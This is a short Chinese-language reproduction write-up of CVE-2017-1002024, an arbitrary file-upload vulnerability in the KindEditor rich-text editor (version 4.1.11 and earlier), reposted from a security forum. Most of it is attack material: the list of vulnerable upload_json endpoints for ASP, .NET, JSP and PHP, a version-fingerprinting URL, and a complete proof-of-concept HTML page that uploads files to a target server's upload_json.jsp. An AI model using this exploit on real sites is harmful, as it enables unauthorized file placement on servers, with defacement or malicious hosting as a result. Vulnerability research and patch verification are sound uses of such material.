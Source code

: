 # （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3006](https://www.zhihuifly.com/t/topic/3006)

# （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞

## 一、漏洞简介

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

## 二、漏洞影响

Kindeditor <=4.1.11

## 三、复现过程

> json文件地址

```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp `/php/upload_json.php` 
```

> 上传路径

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file `kindeditor/php/upload_json.php?dir=file` 
```

> 查看版本信息

```
http://www.0-sec.org/kindeditor//kindeditor.js 
```

![image](img/a1abf6e8b7fd7474d665d41ab0bf5515.png)

> 构造poc

```
<html><head>
<title>Uploader</title>
<script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
<script>
KindEditor.ready(function(K) {
var uploadbutton = K.uploadbutton({
button : K(‘#uploadButton‘)[0],
fieldName : ‘imgFile‘,
url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
afterUpload : function(data) {
if (data.error === 0) {
var url = K.formatUrl(data.url, ‘absolute‘);
K(‘#url‘).val(url);}
},
});
uploadbutton.fileBox.change(function(e) {
uploadbutton.submit();
});
});
</script></head><body>
<div>
<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
<input type="button" id="uploadButton" value="Upload" />
</div>
</body>
</html> 
```